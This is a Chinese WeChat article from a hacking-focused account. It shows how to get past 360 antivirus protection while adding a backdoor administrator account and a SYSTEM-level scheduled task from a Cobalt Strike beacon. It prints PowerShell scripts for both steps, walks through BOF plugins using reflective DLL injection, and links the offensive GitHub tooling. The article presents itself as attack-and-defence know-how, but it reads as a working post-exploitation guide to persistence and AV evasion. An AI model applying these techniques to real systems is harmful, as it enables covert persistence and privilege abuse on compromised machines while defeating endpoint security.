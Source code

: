 #  「攻防对抗」绕过杀软添加用户和计划任务（360核晶模式）

原创 小伍同学 [ Hacker之家 ](javascript:void\(0\);)

**Hacker之家** ![]()

微信号 A-Hacker

功能介绍 Hacker之家，专业码代码，致力于网络信息攻防编程技术领域

____

___发表于_

收录于合集

#360 6 个

#杀毒软件 4 个

#攻防对抗 6 个

## 前言

通常情况下直接执行cmd命令来添加用户或者计划任务都会被杀软拦截，我总结两种方法来绕过杀软的检测，分别是调用Windows Api(编写CS
bof)或者执行Powershell脚本(通过模拟powershell环境的程序来执行)

## 添加用户

### 拦截情景

在开启360核晶模式的环境下，在UI界面执行添加用户的命令都会被拦截

![]()

更别说是在beacon命令行界面执行添加用户命令了，这里我分别尝试使用shell命令和run命令来添加用户，均被核晶拦截了

>
> `shell`命令：此命令允许你执行Windows命令提示符（cmd.exe）中的任何命令。执行的命令将在命令提示符中运行，并将其输出返回给CobaltStrike。这是一个交互式命令，意味着你可以在输出返回后立即输入下一个命令
>
> `run`命令：此命令用于在新的进程中运行程序或命令。与`shell`命令不同，它只是启动新的进程并返回。

![]()![]()

### 绕过方法

#### 1.CS bof

在Windows API中，有一些函数用于处理网络用户和本地组的管理。`NetUserAdd()` 函数用于在一个服务器上创建一个新用户，而
`NetLocalGroupAdd()` 函数可以用于在一个本地服务器上创建一个新的用户组

首先确定beacon进程拥有system权限，这里我使用此插件添加用户的第一个方法`Reflection NetUserAdd`，随后输入添加用户名及密码

  

![]()![]()

运行成功后在beacon命令行会提示

![]()

  

核晶全程没有查杀，cmd命令行输入`net user`可以发现user4用户添加成功了

![]()

  

#### 2.Powershell脚本

以下是添加用户的Powershell脚本

    
    
    # 使用管理员权限运行此脚本  
      
    # 定义新用户的用户名和密码  
    $userName = "NewUser"  
    $password = ConvertTo-SecureString "Password123" -AsPlainText -Force  
      
    # 创建本地用户账户  
    New-LocalUser -Name $userName -Password $password -FullName "New User" -Description "This is a new user."  
      
    # 添加新用户到 "Users" 组  
    Add-LocalGroupMember -Group "Administrators" -Member $userName  
      
    # 输出创建的用户信息  
    Get-LocalUser -Name $userName

以下是执行powershell脚本的效果图：

  

![]()

  

此CS插件整合了添加用户的API，并通过反射dll注入的方式实现无文件落地执行，github项目地址：https://github.com/crisprss/BypassUserAdd

## 添加计划任务

### 拦截情景

beacon命令行执行shell命令来添加计划任务，直接被核晶拦截

    
    
    schtasks /create /tn "My Task" /tr "C:\MyApp.exe" /sc daily /st 10:00  
    

![]()

### 绕过方法

#### 1.CS bof

在Windows api中，你可以使用 Task Scheduler （任务计划程序）API 来创建和管理计划任务。任务计划程序 API 是一组 COM
接口，你可以通过各种编程语言（如 C++，C#，VBScript 等）来使用它

CobaltStrike有个叫Bof的功能，它允许你使用C语言来扩展Beacon的功能，运行时可以直接加载到内存中并执行，因此可以通过编写创建计划任务的bof来绕过一些杀软的检测

此处github上有现成的项目：https://github.com/yanghaoi/CobaltStrike_CNA

加载github项目的插件后，鼠标右键上线会话，`Persistence`->`计划任务`->`Add-TaskAPI`, 通过调用Windows
API来添加计划任务

![]()

设置添加计划任务的详细信息

![]()

添加计划任务后, 会在Beacon命令行提示任务创建成功

![]()

查看目标主机的计划任务列表，可以看到计划任务添加成功了，并且360核晶全程没有报毒

![]()

#### 2.PowerShell脚本

配合模拟powershell环境的可执行程序执行ps1脚本，以此实现添加计划任务，如下是添加计划任务的ps1脚本代码

    
    
    # 定义任务的名称、要运行的程序和参数、描述信息  
    $taskName = "\Explorer\test1"  
    $programPath = "C:\Path\To\Your\Program\MyProgram.exe"  
    $programArgs = "base64"  
    $taskDescription = "This is a scheduled task running a program daily at 12:00 PM."  
      
      
    # 如果任务已经存在，先删除  
    if((Get-ScheduledTask | Where-Object { $_.TaskName -eq $taskName }) -ne $null) {  
        Unregister-ScheduledTask -TaskName $taskName -Confirm:$false  
    }  
      
    # 设定触发器  
    $trigger = New-ScheduledTaskTrigger -Daily -At 17:56pm  #在每天的12:00 PM运行任务  
    #$trigger = New-ScheduledTaskTrigger -AtStartup       #在每次启动时运行任务  
    #$trigger = New-ScheduledTaskTrigger -AtIdle          #在系统空闲时运行任务   
      
    # 设定任务的操作，即要运行的程序和参数  
    $action = New-ScheduledTaskAction -Execute $programPath -Argument $programArgs  
      
    # 创建一个以系统权限运行的计划任务  
    $principal = New-ScheduledTaskPrincipal -UserID "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount -RunLevel Highest  
      
    # 创建计划任务  
    Register-ScheduledTask -TaskName $taskName -Trigger $trigger -Action $action -Principal $principal -Description $taskDescription  
      
    # 删除指定的计划任务  
    # $taskToDelete = "\Explorer\test2"  
    # if((Get-ScheduledTask | Where-Object { $_.TaskName -eq $taskToDelete }) -ne $null) {  
        # Unregister-ScheduledTask -TaskName $taskToDelete -Confirm:$false  
    # }

运行效果如下图所示：

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

